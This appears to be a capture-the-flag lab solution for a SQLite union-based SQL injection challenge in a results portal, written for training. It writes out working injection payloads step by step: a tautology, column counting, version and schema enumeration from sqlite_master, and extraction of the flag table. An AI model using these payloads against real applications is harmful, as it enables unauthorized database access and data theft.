

![ref1]
<table><tr><th colspan="1"><b>Name</b> </th><th colspan="1">Vulnerable Results Portal: Union Based SQLi </th></tr>
<tr><td colspan="1" rowspan="2"><b>URL</b> </td><td colspan="1" valign="bottom"><https://attackdefense.com/challengedetails?cid=2006> </td></tr>
<tr><td colspan="1"></td></tr>
<tr><td colspan="1"><b>Type</b> </td><td colspan="1">OWASP Top 10: Single Page Applications </td></tr>
</table>

**Important Note:** This document illustrates all the important steps required to complete this lab. This  is  by  no  means  a  comprehensive  step-by-step  solution for this exercise. This is only provided as a reference to various commands needed to complete this exercise and for your further research on this topic. Also, note that the IP addresses and domain names might be different in your lab.  

**Step 1:** Interacting with the Exam Results webapp. 

When the lab starts up, the Exam Results webapp opens up in the browser: 



Enter any random roll number and see the result for it: ![ref2]



**Step 2:** Send a SQL Injection payload to the webapp. **Payload:** a' or '1'='1' -- 



The above payload would result in a true statement and thus get all the records from the database. 

**Step 3:** Send a Union Based SQLi payload to determine the version of SQLite. **Payload:** a' or '1'='1' union select 1 -- ![ref2]



**Payload:** a' or '1'='1' union select 1,2,3 -- 



**Payload:** a' or '1'='1' union select 1,2,3,4,5 -- 



So, the number of rows in the result on the left side must be 5. Notice that in the response, 2nd entry is not retrieved. ![ref2]

Send the following payload to retrieve the SQLite version: **Payload:** a' or '1'='1' union select sqlite\_version(),2,3,4,5 -- 





**SQLite version:** 3.22.0 

**Step 4:**  Send a Union Based SQLi payload to determine the name and schema of the tables stored in the database. 

Use the following payload  

**Payload:** a' or '1'='1' union select tbl\_name,2,3,4,5 from sqlite\_master -- 





There are 2 tables stored in the database: results and secret\_flag. ![ref2]

![ref1]

Use the following payload to determine the SQL command used to construct the tables: **Payload:** a' or '1'='1' union select sql,2,3,4,5 from sqlite\_master -- 





Notice the last 2 entries. They contain the SQL commands used to construct the results and the secret\_flag tables. 

**Step 5:** Retrieving the secret flag. 

Use the following payload to retrieve the secret flag: 

**Payload:** a' or '1'='1' union select flag,2,value,4,5 from secret\_flag -- ![ref2]





**Flag:** THIS\_IS\_THE\_FLAG\_da60b8d2972a 

Notice that the above payload doesn’t use the second column to retrieve the data. Instead, the third column because as seen before, the second column never shows up in the result! 

**References:** 

1. OWASP Top 10 (<https://owasp.org/www-project-top-ten/>) ![ref2]
1. Injection ([https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A1-Inject ion](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A1-Injection)) 

[ref1]: Aspose.Words.58d9b42e-b370-4bb9-8a83-e189789df5e1.002.png
[ref2]: Aspose.Words.58d9b42e-b370-4bb9-8a83-e189789df5e1.004.png
